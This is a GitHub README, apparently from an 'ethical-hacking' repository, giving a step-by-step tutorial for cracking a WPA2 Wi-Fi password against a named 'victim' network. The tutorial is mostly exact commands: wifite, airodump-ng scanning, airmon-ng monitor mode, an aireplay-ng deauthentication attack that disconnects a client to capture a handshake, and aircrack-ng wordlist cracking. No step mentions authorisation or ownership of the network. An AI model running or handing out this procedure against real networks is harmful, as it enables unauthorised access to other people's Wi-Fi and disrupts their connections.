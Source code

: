 ***Before Doing This You should checkout /Basics%wireless***

# **Wifi Hacking**
1. [Using Wifite](using-wifite)
2. [Using Aircrack-ng](using-aircrack-ng)




### **Using wifite**

### ***Requirements***
 - [`linux`]()
 - [`wifite`]()

### **Steps**

```
wifite

```

### **POC**

![wifite](https://github.com/aruncs31s/ethical-hacking/blob/main/video/wifite.gif?raw=true)

### **Using Aircrack-ng**


#### Steps With Example
***In this Example i am going to crack the password of a wifi Access point with the name "318 2.4GHz***

#### Tools Used

```
aircrack-ng ip iw 

```


#### Steps

1. **Get the `bssid` of the target : there are multiple methods to obtain bssid and channel** 

##### **Method 1 Using iwlist**

- Open a terminal and type the following command
*You can use the following commands to obtain the bssid*
```
iwlist wlan0 scan
```
*replace the wlan0 with the wireless interface name of the one you have it maybe wlan1 if you are using a external adapter that support packet injection*

<details>

<summary> Find the interface Name ? </summary>

1. Open your terminal 
2. type `ifconfig` 
    or if you dont have ifconfig use `ip a`

</details>

![ifconfig](img/ifconfig.png)

*you can see mine is wlan0*

![ip a](./img/ip_a.png)

</details>

![iwlist wlan0](./img/iwlist_info.png)

 You can see some usefull informations like
`bssid` `essid` `channel` etc

To Crack the password we only need `channel` , `bssid` and that is 

bssid = `AE:09:74:80:CC:3E`
channe = `1`

##### **Method 2 using airodump-ng**

1. Open a terminal and type `sudo airodump-ng wlan0`

```
sudo airodump-ng wlan0
```

after running the the command you will get the following output

```
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```



*again replace the wlan0 with your wifi interface name*

![](./img/airodum-ng_scan.png?raw=true)

We can see see that we have obtained the follwing information that we whanted

bssid   = `AE:09:74:80:CC:3E`
channel = `1`

<details>
<summary>Warning: </summary>
***You should always remember we are attacking the network named `318 2.4GHz` and that name is its `essid`

```

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```

***the `essid` is shown at the end make sure it matches the victim's wifi name***
</details>


2. **Change You wifi card's mode from managed to monitor**

- Now stop the airodum-ng's proccess by pressing `CTRL+C`(Keyboard interrupt)
- type 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

<details>
<summary>Explenation</summary>

</details>


3. **Make New directory to store `.cap` file**

for example

```
mkdir 318_capfiles
```
*you can also store the files in an existing directory but that will make a mess*


4. **Again run the airodump-ng to listen to that target** 

- type the following in you terminal

```
sudo airodump-ng -c 1--bssid AE:09:74:80:CC:3E -w /home/aruncs/Desktop/318_capfiles wlan0
```

***Change the directry name to you need to store the .cap file***

![](./img/working_dir.png?raw=true)


- after typing the command you can see a similar output like in following

![](./img/airodump_listen.png?raw=true)


*you will notice that the output is similar to that of the previous on whe we ran `sudo airodump-ng wlan0`*


5. In this stage we have to capture a hand shake
*In order to capture that some one should be alredy connected to that network*

- we waite for some one to connect
- if someone is alredy connected the we can obtain the following thing

![](./img/airodump-station.png?raw=true)

We can see that the above scree shot contains a new set of details and one of them is the `station`

station = `2C:57:31:4F:DE:E6`


6. Use aireplay-ng to send deauth requests

- open up a new terminal and type the following

```

sudo aireplay-ng -0 10 -a AE:09:74:80:CC:3E -c 2C:57:31:4F:DE:E6 wlan0

```
![](./img/deauth.png?raw=true)


- after running the aireplay-ng we will be able to capture a handshake 

![](./img/handshake.png?raw=true)

![](./img/cap_files.png?raw=true)

![](./img/capfile.png?raw=true)



7. Use the aircrack-ng to crack the captured file

- you should need a wordlist to do this step which can be obtained from [here](abc.com)


- stop the airodump-ng 


- type the following in your terminal 

```

sudo aircrack-ng -a2 -b AE:09:74:80:CC:3E -w /home/aruncs/Desktop/wordlist.txt /home/aruncs/Desktop/318_capfiles/*.cap 

```

- whoalah the password is cracked



![](./img/cracked.png?raw=true)






